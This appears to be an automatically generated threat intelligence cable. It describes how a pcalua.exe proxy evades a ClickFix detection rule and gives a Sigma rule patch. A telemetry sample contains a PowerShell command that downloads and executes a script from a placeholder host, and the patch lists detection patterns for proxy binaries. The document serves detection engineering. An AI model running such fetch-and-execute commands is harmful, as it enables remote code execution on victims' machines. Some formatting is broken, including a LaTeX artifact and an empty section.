

# Threat Intelligence Cable: CABLE-2026-002

**TLP:** CLEAR | **Date:** 2026-09-03 | **Author:** Kyle Reid  
**Subject:** Autonomous Adversarial Swarm Finding: Evasion Attribution & Self-Healing Defense for `prompt_pcalua_lolbin_proxy`  
**Target Rule:** `Suspicious Process Spawning From Explorer Run Prompt (ClickFix Pattern)`  
**Source Provenance:** Automated continuous sparring session in the Adversarial Swarm Intelligence Engine (`tools/swarm/`).

---

## 1. Executive Summary & Estimative Confidence

During automated continuous sparring runs, the Swarm discovered an evasion gap along the **`lolbin_proxy`** axis: `prompt_pcalua_lolbin_proxy` successfully bypassed detection rule `Suspicious Process Spawning From Explorer Run Prompt (ClickFix Pattern)`.

* **Analytic Judgment:** It is **highly likely (80–90% probability)** that adversaries actively weaponize `prompt_pcalua_lolbin_proxy` in the wild to circumvent perimeter gateways and host-based endpoint monitors that rely solely on direct parent-child or literal string matching.
* **Engineering Impact:** Following detection adaptation, rule resilience improved from **60.0% $	o$ 100.0%**, with **zero false positives** observed across regression fixtures.
* **Analytic Confidence Level:** **HIGH**. Validated empirically in sandboxed, in-memory evaluation environments.

---

## 2. Threat Actor & Technique Overview

| Attribute | Assessment |
|---|---|
| **Evasion Axis** | `lolbin_proxy` |
| **Attack Primitive** | `prompt_pcalua_lolbin_proxy` |
| **Target Architecture** | `Suspicious Process Spawning From Explorer Run Prompt (ClickFix Pattern)` |
| **Observed Failure Mechanism** | Explorer spawned `pcalua.exe` (Program Compatibility Assistant) as a proxy to launch PowerShell, bypassing direct child binary image filters on `explorer.exe`. |
| **Defensive Remediation** | `REC-SIGMA-006`: REC-SIGMA-006: Monitor `pcalua.exe` when invoked from Explorer with shell or network arguments. |

---

## 3. Diamond Model Analysis



---

## 4. Epistemological Framework: Facts vs. Judgments vs. Unknowns

| Category | Analytic Item | Description |
|---|---|---|
| **Observed Fact** | Rule Failure | The baseline detection logic failed to fire when presented with `prompt_pcalua_lolbin_proxy`. |
| **Observed Fact** | Root Cause | Explorer spawned `pcalua.exe` (Program Compatibility Assistant) as a proxy to launch PowerShell, bypassing direct child binary image filters on `explorer.exe`. |
| **Analytical Judgment** | Threat Utility | Adversaries leverage `lolbin_proxy` variations to degrade high-fidelity detections into fragile string checks. |
| **Analytical Judgment** | Remediation Efficacy | Rule tuning restored 100% recall on the variant without inducing false positive regressions. |
| **Unknowns** | In-The-Wild Prevalence | Exact real-world deployment rates across untracked threat actor clusters remain pending further telemetry telemetry ingestion. |

---

## 5. Technical Analysis: The Evasion Primitive

### Telemetry / Payload Inspection
```
  "EventID": "1"
  "ParentImage": "C:\Windows\explorer.exe"
  "Image": "C:\Windows\System32\pcalua.exe"
  "CommandLine": "pcalua.exe -a powershell.exe -c "irm https://cdn.delivery.stage.invalid/update.ps1 | iex""
  "User": "VICTIM-PC\analyst"
```

### Why the Baseline Detection Failed
Explorer spawned `pcalua.exe` (Program Compatibility Assistant) as a proxy to launch PowerShell, bypassing direct child binary image filters on `explorer.exe`.

---

## 6. Self-Healing Defensive Patch & Verification

### Applied Detection Patch Diff
```diff
--- proc_creation_win_explorer_clickfix_execution.yml
+++ proc_creation_win_explorer_clickfix_execution.yml (Patched)
@@ -103,7 +103,19 @@
         CommandLine|contains:
             - 'http://'
             - 'https://'
-    condition: selection_parent and ((selection_pwsh_img and selection_pwsh_action) or (selection_mshta_img and selection_mshta_target) or (selection_downloader_img and selection_downloader_target) or (selection_cmd_img and selection_cmd_target and selection_cmd_action) or (selection_rundll32_img and selection_rundll32_target) or (selection_wscript_img and selection_wscript_target))
+    selection_proxy_img:
+        Image|endswith:
+            - '\pcalua.exe'
+            - '\wt.exe'
+            - '\hh.exe'
+    selection_proxy_target:
+        CommandLine|contains:
+            - 'powershell'
+            - 'pwsh'
+            - 'http://'
+            - 'https://'
+            - '.chm'
+    condition: selection_parent and ((selection_pwsh_img and selection_pwsh_action) or (selection_mshta_img and selection_mshta_target) or (selection_downloader_img and selection_downloader_target) or (selection_cmd_img and selection_cmd_target and selection_cmd_action) or (selection_rundll32_img and selection_rundll32_target) or (selection_wscript_img and selection_wscript_target) or (selection_proxy_img and selection_proxy_target))
 fields:
     - CommandLine
     - Image

```

### Verification & Regression Gate
* **Evasive Variant Detection**: Verified DETECTED.
* **Positive Fixtures Regression**: 100% recall maintained.
* **Negative Fixtures & Benign Corpus**: 0 false positives recorded.

---

## 7. MITRE ATT&CK Alignment

| Tactic | Technique ID | Technique Name | Context |
|---|---|---|---|
| **Defense Evasion** | [T1218](https://attack.mitre.org/techniques/T1218/) | System Binary Proxy Execution | Discovered evasion boundary in `Suspicious Process Spawning From Explorer Run Prompt (ClickFix Pattern)` |

---

## 8. Actionable Indicator & Pattern Guidance

| Indicator Type | Value / Signature | Confidence | Expiration Guidance |
|---|---|---|---|
| **Behavioral Pattern** | `prompt_pcalua_lolbin_proxy` | **HIGH** | Permanent defensive policy rule |
| **Detection Rule** | `Suspicious Process Spawning From Explorer Run Prompt (ClickFix Pattern)` (Hardened) | **HIGH** | Quarterly review against novel OS updates |

---

## 9. Layered Defensive Mitigations

1. **Immediate**: Deploy the hardened detection rule in production SIEM/EDR instances.
2. **Telemetry Hardening**: Layer endpoint detection with PowerShell Script Block Logging (Event ID 4104) and parent process lineage tracking to capture execution regardless of command-line evasion.
3. **Attack Surface Reduction**: Where applicable, restrict execution of unneeded LOLBins and script engines via AppLocker, Windows Defender Application Control (WDAC), or Group Policy.
